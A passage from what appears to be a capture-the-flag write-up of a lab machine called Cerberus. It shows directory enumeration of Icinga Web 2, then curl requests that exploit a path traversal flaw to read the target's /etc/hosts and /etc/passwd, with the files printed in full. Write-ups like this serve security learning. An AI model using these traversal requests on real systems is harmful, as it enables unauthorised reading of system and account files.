 ```
/navigation           (Status: 302) [Size: 0] [--> /icingaweb2/authentication/login?redirect=navigation]                                                                                  
/role                 (Status: 302) [Size: 0] [--> /icingaweb2/authentication/login?redirect=role]                                                                                        
/search               (Status: 302) [Size: 0] [--> /icingaweb2/authentication/login?redirect=search]
```

Found some interesting directories, but nothing was useful because we didbn't have any credentials. Decided to enumerate on possible Icinga2 exploits online, and found some useful directory traversal related exploits.

{% embed url="https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/" %}

We can follow the PoC present on the page, and find that it works!

```
$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/hosts 
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

$ curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
```
